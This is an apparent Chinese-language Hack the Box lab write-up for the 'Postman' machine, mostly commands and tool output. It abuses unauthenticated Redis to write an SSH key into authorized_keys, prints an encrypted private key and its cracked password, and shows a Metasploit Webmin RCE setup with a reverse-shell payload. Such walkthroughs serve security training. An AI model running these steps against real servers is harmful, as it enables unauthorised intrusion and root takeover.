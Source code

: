 ```yaml
---
title: Postman(Redis未授权访问)
date: 2021-12-24 11:31:17
tags: Hack the Box
top: true
categories: 未授权访问漏洞
---
```


## 信息收集

发现目标开放了22、80、6379等常见端口

```bash
root💀kali)-[~/Desktop/Scan-Scripts]
└─# ./nmap.sh 10.10.10.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-30 07:32 EST
Nmap scan report for 10.10.10.160
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds
```

<!--more-->

我们访问一下web服务，发现只是一个普通的web页面而已![在这里插入图片描述](https://img-blog.csdnimg.cn/31925c3c4c634d4c8dfa4491466b77e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们模糊一下网站路径

```bash
┌──(root💀kali)-[~/Desktop/Scan-Scripts]
└─# dirsearch -u "http://10.10.10.160" -e * -x404,403,500

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                                                                                        
                                                                                                                                               
Extensions: nmap.sh | HTTP method: GET | Threads: 30 | Wordlist size: 8979

Output File: /root/.dirsearch/reports/10.10.10.160/_21-11-30_07-47-35.txt

Error Log: /root/.dirsearch/logs/errors-21-11-30_07-47-35.log

Target: http://10.10.10.160/
                                                                                                                                               
[07:47:35] Starting: 
[07:48:35] 301 -  310B  - /css  ->  http://10.10.10.160/css/                                                                             
[07:48:44] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/                                                             
[07:48:48] 301 -  313B  - /images  ->  http://10.10.10.160/images/                        
[07:48:48] 200 -    2KB - /images/
[07:48:50] 200 -    4KB - /index.html                                                                                                 
[07:48:51] 200 -    3KB - /js/                                                                                                              
[07:48:52] 301 -  309B  - /js  ->  http://10.10.10.160/js/                   
[07:49:25] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/                                                                       
[07:49:27] 200 -    8KB - /upload/                                                                          
                                                                                                                       
Task Completed
```

<!--more-->

我们发现一个upload目录，访问发现只有一些图片而已
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3c145006edb4713a933104a79cae707.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
web攻击无果，那我们将注意力转移到redis数据库上，尝试是否存在未授权访问漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f8887a8690934a50aefef93ab24f104a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们首先将我们的ssh-key写入到key.txt文件中
![在这里插入图片描述](https://img-blog.csdnimg.cn/30cc35f7466642ae8fc852db4f111dc6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
再把key.txt文件内容写入redis缓存中
![在这里插入图片描述](https://img-blog.csdnimg.cn/3f83ac49ad7546059774aba3c56a198e.png)

```bash
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set /var/lib/redis/.ssh
(error) ERR Wrong number of arguments for CONFIG set
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```

我们尝试登录到该主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/795ba910f639419d8987d79f0ec483b2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们上传linpeas.sh脚本到目标主机上发现，主机的/opt目录上存在一份私钥备份

```bash
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

我们将其下载到本机，并使用ssh2john.py将其哈希导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/66c4d071bea24d2bb4891441037f3a8d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后使用john进行破解得到密码，得到密码computer2008，登录到Matt账户
![在这里插入图片描述](https://img-blog.csdnimg.cn/40e53a09c8a549a19313e7fb22d13443.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 提权root

我们访问10000端口发现是个webmin应用程序，在EDB发现存在RCE漏洞并在MSF中集成
![在这里插入图片描述](https://img-blog.csdnimg.cn/83ea6c04c24c457e896f109ef6a6cfbf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae16ec96fd1d44ceac7112af658419af.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接使用第二个并填写好参数后，得到root权限

```bash
msf6 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > show options 

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.14.9
lhost => 10.10.14.9
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/6427bab560c04677b571daeed8ba6947.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
